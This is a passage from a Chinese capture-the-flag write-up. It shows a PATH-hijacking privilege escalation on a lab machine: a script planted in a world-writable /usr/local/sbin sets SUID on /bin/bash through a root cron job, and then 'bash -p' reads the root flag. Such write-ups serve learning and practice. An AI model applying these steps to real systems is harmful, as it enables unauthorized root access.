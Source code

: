 检查PATH环境变量和相关目录权限：

```bash
marisa@Crontab:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
marisa@Crontab:~$ ls -al /usr/local/sbin
total 8
drwxrwxrwx  2 root root 4096 Sep  8 03:39 .
drwxr-xr-x 10 root root 4096 Mar 18 20:26 ..
```

**关键发现：** `/usr/local/sbin` 目录对所有用户可写，且在PATH中优先级较高！

## 6.4 PATH劫持攻击

利用PATH劫持创建同名恶意文件：

```bash
marisa@Crontab:~$ echo 'chmod +s /bin/bash' > /usr/local/sbin/master_spark
marisa@Crontab:~$ chmod +x /usr/local/sbin/master_spark
```

等待定时任务执行：

```bash
marisa@Crontab:~$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
# 等待一分钟后
marisa@Crontab:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

成功！bash已获得SUID权限。

> **技术要点：** 
>
> - PATH劫持利用了程序查找的优先级机制
> - 当程序没有使用绝对路径时，会按PATH顺序搜索
> - `/usr/local/sbin` 在 `/usr/bin` 之前，因此优先执行我们的恶意脚本

## 6.5 获取Root权限

使用SUID bash获取root权限：

```bash
marisa@Crontab:~$ bash -p
bash-5.0# cat /root/root.txt /home/marisa/user.txt 
flag{touhou sai gao}
flag{marisa marisa-master spark}
```

成功获取两个flag！